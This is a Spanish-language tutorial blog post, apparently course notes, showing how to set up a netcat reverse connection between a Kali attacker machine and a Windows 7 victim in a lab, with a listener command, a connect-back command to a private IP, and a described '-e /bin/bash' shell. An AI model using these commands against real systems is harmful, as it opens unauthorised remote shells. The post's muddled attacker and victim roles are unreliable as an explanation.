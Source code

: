 ```yaml
---
layout: single
title: Como hacer una conexion inversa
date: 2023-11-22
classes: wide
header:
  teaser: "/assets/roadmap.webp"
categories:
  - slae
  - infosec
tags:
  - Ciberseguridad Udemy
  - netcat
  - Dia 4
---
```


Una Conexion inversa es cuando la victima se conecta al atacante.

Nuestro Kali Linux es nuestro S.O como hacker, la maquina del atacante.

El Windows 7 Es la victima de la victima.

Entonces lo que vamos a hacer es una conexion inversa que seria que con nuestro Kali nos conectamos al W7.

Primero de la maquina del Atacante vamos a abrir los puertos utilizando el comando que ya vimos en el anterior post.


```sh
#nc -lvvp "puerto"
nc -lvvp 4447

# lo que hace la flag lvvp es poner netcat en escucha en el puerto 4447
```

![[Pasted image 20231123112452.png]](../assets/images/img-ciberseguridad-udemy/Pasted%20image%2020231123112452.png)

Y ahora desde la maquina de la victima vamos a conectarnos a la maquina del atacante.
Con el comando visto anteriormente.

```sh
#nc ip-atacante
nc 192.168.0.21 4447
```

Como podemos ver ya tenemos acceso remoto desde la maquina victima hacia la maquina del atacante.

![[Pasted image 20231123112756.png]](../assets/images/img-ciberseguridad-udemy/Pasted%20image%2020231123112756.png)

Esa es una prueba de conexion inversa.

Ahora lo que vamos a hacer es generar una shell en la maquina de la victima a la hora que se conecte a nuestra maquina, como hacemos eso?
Con los mismos comandos del anterior post pero ahora cambiamos de maquinas y de terminales, porque recuerden que linux no tiene cmd tiene bash.

![[Pasted image 20231123113037.png]](../assets/images/img-ciberseguridad-udemy/Pasted%20image%2020231123113037.png)

Y de parte de W7 lo que nos quedaria hacer es conectarnos.

![[Pasted image 20231123113526.png]](../assets/images/img-ciberseguridad-udemy/Pasted%20image%2020231123113526.png)
Ahi como podemos ver desde W7 la maquina de la victima, establecí una conexión hacia la maquina del atacante , y recuerden que habíamos activado la flag -e /bin/bash, entonces se me abrió una terminal para controlar la maquina del atacante.

Posteriormente para corroborar me movilice al escritorio y cree la carpeta prueba.